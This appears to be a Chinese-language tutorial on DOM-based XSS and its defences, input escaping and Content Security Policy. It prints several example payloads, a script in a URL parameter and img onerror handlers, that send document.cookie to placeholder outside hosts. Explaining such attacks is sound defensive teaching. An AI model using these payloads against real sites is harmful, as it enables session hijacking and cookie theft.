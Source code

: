 有可能触发 DOM 型 XSS 的属性：

- document.referer 属性
- window.name 属性
- location 属性
- innerHTML 属性
- document.write 属性

假设网站默认语言是可以根据网址的参数参数 lang= English 来渲染的，此时我们将网址的 default 参数改成下面这种，那估计就会出问题了：

```javascript
?lang=<script>(function(){ const xhr = new XMLHttpRequest(); xhr.open('GET', 'http://xxx.com?a=' + document.cookie); xhr.send() })()</script>
```

上面这种情况，一般在代码里对页面参数进行判断，对 < script > 标签进行处理，避免执行恶意脚本

禁止了 < script > 标签的恶意执行，还有一个标签也能达到这个效果，就是 < img > 标签的 onerror 属性，这个属性允许我们传入动态拼接的方法

```html
<img
  src="1.png"
  onerror="(function(){ const xhr = new XMLHttpRequest(); xhr.open('GET', 'http://1.2.3.4?param=' + document.cookie); xhr.send() })()"
/>
```

如果此时页面有个元素节点是根据 query 取值到页面 div 进行渲染，可以处理成

```html
</div><img src="1.png" onerror="(function(){ const xhr = new XMLHttpRequest(); xhr.open('GET', 'http://1.2.3.4?param=' + document.cookie); xhr.send() })()" />
```

这时候< img > 标签就也能达到攻击网站的效果

以上的情况，基本都是这类情况：代码会通过页面网址 query 取值来渲染页面，此时如果没有对 query 进行处理，很容易被攻击；

针对这个情况，可以代码通过对页面 query 的值进行过滤，比如 switch case 来排除给定选项以外的其它选项

### 解决方法

XSS 攻击原理就是：让恶意脚本直接在浏览器执行，主要的解决方法就是控制前端输入内容和限制特定字符、脚本执行

#### 对输入内容进行过滤或转码

对用户输入的信息进行过滤或者转码，进行特定字符过滤，例如 <、>等符号

```javascript
&lt;script&gt;alert(&#39;你受到XSS攻击了&#39;)&lt;/script&gt;
```

#### CSP（内容安全策略）

核心思想就是服务器决定浏览器加载哪些资源，该实现基于一个 Content-Security-Policy 的 HTTP 首部；

实质就是白名单制度，开发者明确告诉客户端，哪些外部资源可以加载和执行，它的实现和执行全部由浏览器完成，开发者只需提供配置；

- 限制加载其他域下的资源文件，这样即使黑客插入了一个 JavaScript 文件，这个 JavaScript 文件也是无法被加载的；
- 禁止向第三方域提交数据，这样用户数据也不会外泄；
- 提供上报机制，能帮助我们及时发现 XSS 攻击；
- 禁止执行内联脚本和未授权的脚本；
